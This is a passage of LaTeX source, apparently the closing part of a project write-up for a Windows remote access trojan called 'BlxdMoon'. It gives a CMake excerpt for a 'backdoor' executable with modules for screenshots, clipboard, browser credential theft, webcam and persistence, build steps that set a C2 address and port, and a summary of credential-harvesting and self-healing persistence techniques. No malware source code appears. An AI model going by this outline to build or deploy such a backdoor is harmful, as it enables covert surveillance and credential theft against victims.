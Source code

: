 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[style=bashstyle, caption={CMakeLists.txt (excerpt)}]
# Backdoor executable
add_executable(backdoor
    src/backdoor.c src/logger.c src/screen.c
    src/process.c src/clipboard.c src/browser.c
    src/webcam.c src/crypto.c src/persistence.c ...
)

# Required Windows libraries
target_link_libraries(backdoor
    ws2_32      # WinSock2 networking
    gdi32       # Graphics (screenshots)
    bcrypt      # Cryptography (AES, ECDH)
    crypt32     # DPAPI (browser creds)
    strmiids    # DirectShow (webcam)
    ole32       # COM initialization
    shell32     # Shell API (persistence)
)
\end{lstlisting}

\subsection{Compilation Steps}

\begin{enumerate}
    \item \textbf{Configure IP/Port:}
    \begin{lstlisting}[style=bashstyle]
./configure.sh 192.168.1.100 4444
    \end{lstlisting}

    \item \textbf{Build with CMake:}
    \begin{lstlisting}[style=bashstyle]
mkdir build && cd build
cmake ..
make
    \end{lstlisting}

    \item \textbf{Output:}
    \begin{itemize}
        \item \texttt{build/server.exe} -- C2 Server
        \item \texttt{build/backdoor.exe} -- Client/Backdoor
    \end{itemize}
\end{enumerate}

\section{Conclusion}

BlxdMoon demonstrates fundamental RAT techniques including:

\begin{itemize}
    \item Client-server architecture with TCP sockets
    \item Windows API usage for system interaction
    \item Cryptographic protocols for secure communication
    \item Multi-threading for concurrent operations
    \item Multi-layer persistence with self-healing capabilities
    \item Credential harvesting techniques
\end{itemize}
\end{document}
